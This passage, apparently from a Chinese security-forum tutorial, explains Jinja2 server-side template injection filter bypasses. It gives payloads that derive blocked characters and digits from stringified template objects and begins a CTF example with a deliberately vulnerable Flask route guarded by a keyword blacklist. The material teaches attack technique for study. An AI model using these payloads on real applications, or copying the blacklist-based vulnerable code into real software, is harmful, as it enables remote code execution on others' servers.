 如下演示：

```php
{% set org = ({ }|select()|string()) %}{{org}}
```

![image.png](https://cdn-yg-zzbm.yun.qianxin.com/attack-forum/2022/03/attach-4460ffd9da758f379e1d5602910e8d07898434a1.png)

如上图所示，我们可以通过 `<generator object select_or_reject at 0x7fe339298fc0>` 字符串获取的字符有：尖号、空格、下划线，以及各种字母和数字。

```python
{% set org = (self|string()) %}{{org}}
```

![image.png](https://cdn-yg-zzbm.yun.qianxin.com/attack-forum/2022/03/attach-877701bea2529dc3fa7caf8bc3e55f19052026b7.png)

可以通过 `<TemplateReference None>` 字符串获取的字符有：尖号、字母和空格以及各种字母。

```python
{% set org = self|string|urlencode %}{{org}}
```

![image.png](https://cdn-yg-zzbm.yun.qianxin.com/attack-forum/2022/03/attach-302ba69511ea5bfe8091bdb84d66b0ce2038f933.png)

如上图所示，可以获得的字符除了字母以外还有百分号，这一点比较重要，因为如果我们控制了百分号的话我们可以获取任意字符（URL）。

```python
{% set org = (app.__doc__|string) %}{{org}}
```

![image.png](https://cdn-yg-zzbm.yun.qianxin.com/attack-forum/2022/03/attach-9a505924d7588e09975163b61be7134864b2b5a7.png)

如上图所示，可获得到的字符更多了，有等号、加号、单引号等。

- 对于获取数字，除了上面出现的那几种外我们还可以有以下几种方法：

```python
{% set num = (self|int) %}{{num}}    # 0, 通过int过滤器获取数字
{% set num = (self|string|length) %}{{num}}    # 24, 通过length过滤器获取数字
{% set point = self|float|string|min %}    # 通过float过滤器获取点 .
```

有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算。

##### 例题

题目源码：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from flask import Flask, render_template, render_template_string, redirect, request, session, abort, send_from_directory
app = Flask(__name__)

@app.route("/")
def index():
    def safe_jinja(s):
        blacklist = ['class', 'attr', 'mro', 'base',
                     'request', 'session', '+', 'add', 'chr', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', '"', '{}']
        flag = True
        for no in blacklist:
            if no.lower() in s.lower():
                flag = False
                break
        return flag
    if not request.args.get('name'):
        return open(__file__).read()
    elif safe_jinja(request.args.get('name')):
```